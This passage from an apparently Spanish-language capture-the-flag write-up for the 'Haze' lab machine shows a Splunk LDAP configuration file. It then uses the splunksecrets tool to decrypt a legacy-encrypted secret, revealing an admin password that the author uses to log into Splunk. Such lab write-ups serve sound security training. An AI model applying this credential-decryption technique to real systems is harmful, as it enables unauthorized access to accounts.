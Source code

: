 ```conf
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```
{: file="var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf"}

Está encriptada utilizando el viejo formato de Splunk (pre 7.2), se lo especificaremos a la herramienta para que la desencripte:

```bash
❯ splunksecrets splunk-legacy-decrypt -S ../../../../../../../etc/auth/splunk.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
Sp1unkadmin@2k24
```

Con esta contraseña ahora podremos acceder al splunk que vimos al inicio como el usuario `admin`:

![Splunk page](/assets/writeups/haze/4.png)

